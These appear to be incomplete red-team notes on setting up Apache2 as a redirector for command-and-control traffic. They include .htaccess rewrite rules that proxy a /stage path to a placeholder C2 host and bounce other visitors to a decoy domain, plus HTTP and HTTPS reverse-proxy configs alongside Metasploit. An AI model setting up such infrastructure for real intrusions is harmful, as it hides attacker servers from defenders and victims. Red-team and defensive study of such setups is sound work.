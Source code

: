 # Redirectors

## 01 - Apache2

### 1.1 - Config file

```
$ cat /etc/apache2/apache2.conf
<Directory /var/www/>
		Options Indexes FollowSymLinks
		AllowOverride All
		Require all granted
</Directory>
```

### 1.2 - .htaccess file config

TODO: Fill this info

`R=302` means redirect.

```
$ cat /var/www/html/.htaccess
RewriteEngine On
RewriteCond %{REQUEST_URI} ^/stage$
RewriteRule ^.*$ http://<C2_IP>%{REQUEST_URI} [P]
RewriteRule ^.*$ http://<domain.com>/? [L,R=302]
$ chmod 644 /var/www/html/.htaccess
```

### 1.3 - HTTP

```
$ sudo a2enmod rewrite proxy proxy_http && \
sudo systemctl restart apache2
```

`$ sudo a2ensite 000-default.conf`

Here is the configuration.

```
$ cat /etc/apache2/sites-available/000-default.conf
<VirtualHost *:<C2_PORT>>
	# ServerName <C2_IP>
	# ServerAlias <C2_IP>
	DocumentRoot /var/www/html

	ProxyRequests Off
	ProxyPass / http://<C2_IP>:<C2_PORT>/
	ProxyPassReverse / http://<C2_IP>:<C2_PORT>/
</VirtualHost>
```

`$ sudo systemctl restart apache2`

```
msf >
```

### 1.4 - HTTPS

- For HTTPS listener

`$ sudo a2enmod ssl`

`$ sudo openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout /etc/apache2/ssl/apache.key -out /etc/apache2/ssl/apache.crt`

---

```
$ sudo nano /etc/apache2/sites-available/default-ssl.conf
<IfModule mod_ssl.c>
    <VirtualHost *:<C2_PORT>>
        # ServerName <C2_IP>
        # ServerAlias <C2_IP>

        SSLEngine on
        SSLCertificateFile /etc/apache2/ssl/apache.crt
        SSLCertificateKeyFile /etc/apache2/ssl/apache.key

        ProxyPass / http://<C2_IP>:<C2_PORT>/
        ProxyPassReverse / http://<C2_IP>:<C2_PORT>/
    </VirtualHost>
</IfModule>
```

`$ sudo systemctl restart apache2`

```
msf >
```